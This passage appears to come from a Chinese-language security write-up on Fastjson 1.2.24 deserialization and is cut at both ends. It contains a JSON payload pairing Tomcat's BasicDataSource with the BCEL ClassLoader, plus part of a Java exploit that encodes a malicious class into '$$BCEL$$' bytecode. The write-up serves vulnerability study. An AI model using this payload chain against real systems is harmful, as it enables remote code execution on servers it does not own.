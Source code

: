 ```java
    }
}

```

运行后成功执行恶意类的命令
![image-20221229185834928](images/image-20221229185834928.png)

另一种解决方法就是使用`JSON.parseObject()`方法，还是保持原来的格式：
```json
{
    "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource", 
    "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    }, 
    "driverClassName": "$$BCEL$$......"
}
```

编写 exp：
```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;
import com.fastjson.becl.EvilDemo;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

/**
 * Created by dotast on 2022/12/29 12:02
 */
public class FastJson124Bcel {
    public static void main(String[] args) throws Exception {
        // 加载恶意类字节码
        JavaClass javaClass = Repository.lookupClass(EvilDemo.class);
        String byteCode = "$$BCEL$$" + Utility.encode(javaClass.getBytes(), true);
        String targetClass = "org.apache.tomcat.dbcp.dbcp.BasicDataSource";
        String bcelClass = "com.sun.org.apache.bcel.internal.util.ClassLoader";
        String exp = "{\n"+
                "      \"@type\":\"" + targetClass + "\",\n" +
                "      \"driverClassLoader\":{\n" +
                "      \"@type\": \"" + bcelClass + "\"\n" +
                "       },\n" +
```